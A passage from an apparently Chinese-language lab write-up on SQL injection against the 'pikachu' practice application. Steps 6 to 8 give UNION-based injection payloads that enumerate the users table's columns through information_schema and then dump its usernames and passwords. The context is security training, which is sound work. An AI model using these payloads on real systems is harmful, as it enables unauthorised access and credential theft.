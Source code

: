 6.爆列名`-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_schema='pikachu' and table_name='users'),3#`

![svajlvhjavjajvajv](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/svajlvhjavjajvajv)

7.查看username字段`-1' union select 1,(select group_concat(username) from pikachu.users),3#`

![QQ图片20200305124544.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124544.png)

8.查看password字段`-1' union select 1,(select group_concat(password) from pikachu.users),3#`

![QQ图片20200305124710.png](https://raw.githubusercontent.com/U1timater/U1timater.github.io/master/img-in-issue/QQ%E5%9B%BE%E7%89%8720200305124710.png)

### 五、xx型注入
